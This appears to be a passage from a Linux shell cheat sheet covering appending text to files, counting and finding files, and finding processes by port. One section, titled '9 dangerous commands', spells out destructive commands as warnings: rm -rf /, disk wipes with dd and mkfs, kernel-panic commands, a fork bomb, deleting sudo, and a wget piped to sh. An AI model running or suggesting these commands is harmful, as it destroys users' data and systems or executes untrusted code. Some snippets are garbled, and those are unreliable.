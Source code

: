 `echo "`date` text here" >> filename`

### Use `tee` command:

`echo "text here `date`"|tee -a filename`

### Use `sed`







## Count file numbers
Pass stdin to `wc -l` command.

`find . -type f|wc -l`

## Find all files follow extension
`find $directory -type f -name "*.ext"`

## 9 dangerous commands
1. Delete Recursively: `rm -rf /`
2. Format Hard Drive: `mkfs.ext4 /dev/hda`
3. Overwrite Hard Drive: `command > /dev/hda`
4. Wipe Hard Drive: `dd if=/dev/zero of=/dev/hda`
5. Implode Hard Drive: `mv / /dev/null`
6. Cause Kernel Panic:
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
7. Fork Bomb: `:(){:|:&};:`
8. Execute Remote Script: `wget http://an-untrusted-url -O- | sh`
9. Disable Root Command Rights: `rm -f /usr/bin/sudo;rm -f /bin/su`

## Find process use port
`sudo lsof -i tcp:80`

`sudo netstat -nlp|grep 80`

`netstat -tunap | grep :80` : find what process use 80 port. (-t: tcp, -u: udp, -n: numeric ip instead hostname, -a: all, -p: program/process id)

## Audio muted
`alsamixer` and unmute
